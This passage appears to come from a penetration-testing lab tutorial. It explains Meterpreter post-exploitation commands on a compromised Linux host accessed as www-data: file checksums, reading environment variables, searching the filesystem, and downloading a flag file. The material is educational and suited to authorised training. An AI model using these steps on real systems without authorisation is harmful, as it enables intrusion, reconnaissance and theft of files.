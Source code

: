 In order to get the MD5 hash of a particular binary, what we can do is utilize the `checksum` command.

```
meterpreter > checksum md5 /bin/bash
```

In terms of Linux, we can also get the current environment variables. If we want to learn more abount how this particular user has been configured, we can use the get environment variable `getenv`, and then we specify the environment variable that we want to enumerate.

Enumerate our current path for this user. This will provide you with the variable PATH and its value.

```
meterpreter > getenv PATH
```

If we want to learn more about the terminal that has been assigned to this particular user.

```
meterpreter > getenv TERM
```

Because we currently have access via the www-data service account. That cannot be accessed using a terminal session. So that's why it doesn't have the environment variable TERM set.

In terms of search for files. 

`-d`: Specify the directory we want to search in.

Or you can just perform a search and this will perform a search within the entire file system.

We're going to search within the /usr/bin directory, which is where binaries are stored.

`-f`: Find a file.

```
meterpreter > search -d /usr/bin -f *backdoor*
```

Search for specific file extensions.

```
meterpreter > search -f *.jpg
meterpreter > search -f *.php
```

You can utilize the search command to search for specific files. You can also limit the results or search for files with specific extensions.

That is how to navigate around the file system.

Download a file from the target system.

```
meterpreter > download flag1
meterpreter > ^Z
ls
sessions 1
```

